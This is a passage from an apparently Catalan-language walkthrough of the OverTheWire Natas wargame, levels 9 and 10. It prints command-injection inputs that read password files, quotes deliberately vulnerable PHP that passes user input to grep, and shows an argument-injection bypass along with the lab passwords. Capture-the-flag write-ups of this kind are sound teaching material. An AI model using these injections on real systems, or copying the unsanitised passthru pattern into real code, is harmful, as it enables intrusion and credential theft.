     Si escrivim en el formulari: | pwd
    Ens mostra: /var/www/natas/natas9

    Per tant, fem el cat de la password.
    | cat /etc/natas_webpass/natas10 
    També funciona amb:
    ; cat /etc/natas_webpass/natas10

    Output:
    D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE


## NATAS 10

    Username: natas10
    Password: D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
    URL:      http://natas10.natas.labs.overthewire.org

    Cliquem sobre 'view sourcecode'.
    Tenim el contingut interessant:
    
    For security reasons, we now filter on certain characters<br/><br/>
    <form>
    Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
    </form>

    Output:
    <pre>
    <?
    $key = "";
    if(array_key_exists("needle", $_REQUEST)) {
        $key = $_REQUEST["needle"];
    }
    if($key != "") {
        if(preg_match('/[;|&]/',$key)) {
            print "Input contains an illegal character!";
        } else {
            passthru("grep -i $key dictionary.txt");
        }
    }
    ?>

    Com que hi ha un 'grep -i", ens aprofitem i hi posem a davant el fitxer que hi volem posar:
    a /etc/natas_webpass/natas11

    Expressió total:
    grep -i a /etc/natas_webpass/natas11 dictionary.txt

    Ens dona la password:
    /etc/natas_webpass/natas11:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg


##  NATAS 11
